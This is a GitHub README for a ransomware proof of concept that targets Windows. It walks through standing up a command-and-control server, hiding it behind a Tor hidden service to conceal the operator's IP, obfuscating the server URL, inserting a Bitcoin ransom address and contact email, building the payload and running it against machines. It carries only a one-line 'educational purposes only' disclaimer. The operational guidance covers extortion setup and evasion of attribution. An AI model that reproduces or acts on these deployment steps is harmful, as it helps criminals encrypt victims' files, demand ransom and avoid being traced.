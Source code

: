 <h1 align="center">Don't-Cry Ransomware PoC</h1>

<div align="center">
  <img src="https://img.shields.io/badge/Python-3.12%2B-blue?logo=python&logoColor=white" alt="Python">
  <img src="https://img.shields.io/badge/Requires-Cython-yellow?logo=python&logoColor=white" alt="Cython">
  <img src="https://img.shields.io/badge/Rust-1.87.0%2B-orange?logo=rust&logoColor=white" alt="Rust >= 1.87.0">
  <img src="https://img.shields.io/github/license/memecoder12345678/DCry-Ransomware?style=flat&logo=open-source-initiative&logoColor=white" alt="License">
  <img src="https://img.shields.io/badge/Platform-Windows-blue?logo=windows&logoColor=white" alt="Platform">
</div>

![DCry](imgs/dcry.png)
PoC ransomware in Python targeting Windows systems 💀💀💀

---

## Setup & Installation

### Server (Linux)

1. Install the required packages:

  ```powershell
  pip3 install -r requirements-server.txt
  ```

2. Run the server:

  ```bash
  gunicorn -b 0.0.0.0:8080 src.server:app
  ```

> Or for debugging:

  ```bash
  python3 src/server.py
  ```

> 💡 **Tip:** You can also run the server behind a Tor hidden service to hide your real IP.
> Example (in `torrc`):
>
> ```txt
> HiddenServiceDir /var/lib/tor/dcry/
> HiddenServicePort 80 127.0.0.1:8080
> ```
>
> After restarting Tor, your Onion address will be available in `/var/lib/tor/dcry/hostname`.

### Client (Windows)

1. Install the required packages:
  
  ```powershell
  pip install -r requirements-client.txt
  ```

---

## Usage

1. Open [`src/dcry.py`](src/dcry.py)
  
    * Replace the `YOUR_URL` variable with the encoded URL using the `dx42` function like this:
      ```python
      YOUR_URL = dx42(b"YOUR_ENCODED_URL").decode()
      ```
      (Use the `ex42` function from the `edx42` module to encode your URL first.)
      
      Example:
      ```python
      encoded_url = ex42(b"https://your-tor-server.onion")
      YOUR_URL = dx42(encoded_url).decode()
      ```
  
     * Replace `YOUR_PROXY`, `YOUR_BITCOIN_ADDRESS`, `YOUR_EMAIL_ADDRESS` similarly.
     * Set `dev_mode = False` if not using development mode.

2. Open [`src/decryptor.py`](src/decryptor.py)

   * Set `dev_mode = False` if not using development mode.

3. Build the Cython code:

  ```powershell
  python src/setup.py build_ext --inplace
  Move-Item -Path file_crypto.*.pyd -Destination src -Force
  ```

4. Run the server (WSGI):

  ```bash
  gunicorn -b 0.0.0.0:8080 src.server:app
  ```

5. Run the ransomware:

  ```powershell
  python src/dcry.py
  ```

6. Run the decryptor:

  ```powershell
  python src/decryptor.py
  ```

---

## Warning

> [!WARNING]
> This project is a ransomware simulation for educational purposes only.

---

## FAQ

  * See details in [FAQ.md](docs/FAQ.md)

## Contributing

  * See contribution guidelines in [CONTRIBUTING.md](docs/CONTRIBUTING.md)

## Code of Conduct

  * See our community standards in [CODE\_OF\_CONDUCT.md](docs/CODE_OF_CONDUCT.md)

## Security

  * See the security policy in [SECURITY.md](docs/SECURITY.md)

## License

  * This project is licensed under the terms of the [Apache License 2.0](./LICENSE)

